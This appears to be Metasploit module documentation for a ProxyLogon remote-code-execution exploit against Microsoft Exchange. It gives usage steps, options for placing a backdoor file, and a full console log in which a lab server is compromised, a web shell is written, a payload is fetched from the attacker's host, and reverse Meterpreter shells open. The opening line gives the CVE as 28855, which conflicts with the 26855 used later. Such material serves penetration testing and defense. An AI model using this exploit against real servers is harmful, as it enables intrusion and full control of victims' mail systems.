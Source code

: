 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

CVE-2021-27065 is a post-auth arbitrary-file-write vulnerability to get code execution and the second part
of ProxyLogon attack chain.

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication, impersonating as the admin (CVE-2021-26855) and write arbitrary file (CVE-2021-27065) to
get the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft
Exchange Server.

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxylogon_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### EMAIL

A known email address for this organization.

### METHOD

HTTP Method to use for the check (only). Default: POST

### UseAlternatePath

Use the IIS root dir as alternate path. Default: false

## Advanced Options

### ExchangeBasePath

The base path where exchange is installed. Default: C:\Program Files\Microsoft\Exchange Server\V15

### ExchangeWritePath

The path where you want to write the backdoor. Default: owa\auth

You can for example, define to: ecp\auth

### IISBasePath

The base path where IIS wwwroot directory is. Default: C:\inetpub\wwwroot

### MapiClientApp

This is MAPI client version sent in the request.

### MaxWaitLoop

Max counter loop to wait for OAB Virtual Dir reset. Default: 30

## Scenarios

```
msf6 exploit(windows/http/exchange_proxylogon_rce) > options 

Module options (exploit/windows/http/exchange_proxylogon_rce):

   Name     Current Setting           Required  Description
   ----     ---------------           --------  -----------
   EMAIL    gaston.lagaffe@pwned.lab  yes       A known email address for this organization
   METHOD   POST                      yes       HTTP Method to use for the check (Accepted: GET, POST)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.20.2.112              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    443                       yes       The target port (TCP)
   SSL      true                      no        Negotiate SSL/TLS for outgoing connections
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                            no        The URI to use for this exploit (default is random)
   VHOST                              no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.20.2.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Dropper


msf6 exploit(windows/http/exchange_proxylogon_rce) > run

[*] Started reverse TCP handler on 172.20.2.12:4444 
[*] Using auxiliary/scanner/http/exchange_proxylogon as check
[+] https://172.20.2.112:443 - The target is vulnerable to CVE-2021-26855.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] https://172.20.2.112:443 - Attempt to exploit for CVE-2021-26855
[*] Internal server name (EX02)
[*] https://172.20.2.112:443 - Sending autodiscover request
[*] Server: c7f46eae-bac1-49e7-8502-afe90609ea7f@pwned.lab
[*] LegacyDN: /o=Pwned Exch2k13-HA/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=683c605c88c14fcca1f5e74d0d136461-Gaston
[*] https://172.20.2.112:443 - Sending mapi request
[*] SID: S-1-5-21-3876225949-3666446388-246247518-1156 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.112:443 - Sending ProxyLogon request
[*] Try to get a good msExchCanary (by patching user SID method)
[*] ASP.NET_SessionId: a4fd3b7a-5835-419b-a6d1-0fc7e6570639
[*] msExchEcpCanary: N2LyPutF3EeUa1GvrAh5pK2NzUjC69gIXx5QmTG8m_1hFOyUrbb7igvdhFcRO2SK54d6VIAd8F8.
[*] OAB id: ee967fff-2665-4333-b396-164b9c58495c (OAB (Default Web Site))
[*] https://172.20.2.112:443 - Attempt to exploit for CVE-2021-27065
[*] Prepare the payload on the remote target
[*] Write the payload on the remote target
[!] Wait a lot (0)
[+] Yeeting windows/x64/meterpreter/reverse_tcp payload at 172.20.2.112:443
[*] Using URL: http://0.0.0.0:8080/zHDOA5lOrSPE
[*] Local IP: http://172.20.2.12:8080/zHDOA5lOrSPE
[*] Client 172.20.2.112 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0) requested /zHDOA5lOrSPE
[*] Sending payload to 172.20.2.112 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0)
[*] Client 172.20.2.112 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0) requested /zHDOA5lOrSPE
[*] Sending payload to 172.20.2.112 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0)
[*] Sending stage (200262 bytes) to 172.20.2.112
[*] Meterpreter session 7 opened (172.20.2.12:4444 -> 172.20.2.112:57328) at 2021-03-18 21:05:01 +0400
[*] Sending stage (200262 bytes) to 172.20.2.112
[*] Meterpreter session 8 opened (172.20.2.12:4444 -> 172.20.2.112:57329) at 2021-03-18 21:05:01 +0400
[*] Server stopped.
[!] This exploit may require manual cleanup of 'C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\ecp\auth\GoWdK.aspx' on the target

meterpreter > 
```

## References

1. <https://proxylogon.com/>
2. <http://aka.ms/exchangevulns>
3. <https://www.praetorian.com/blog/reproducing-proxylogon-exploit>
4. <https://testbnull.medium.com/ph%C3%A2n-t%C3%ADch-l%E1%BB%97-h%E1%BB%95ng-proxylogon-mail-exchange-rce-s%E1%BB%B1-k%E1%BA%BFt-h%E1%BB%A3p-ho%C3%A0n-h%E1%BA%A3o-cve-2021-26855-37f4b6e06265>
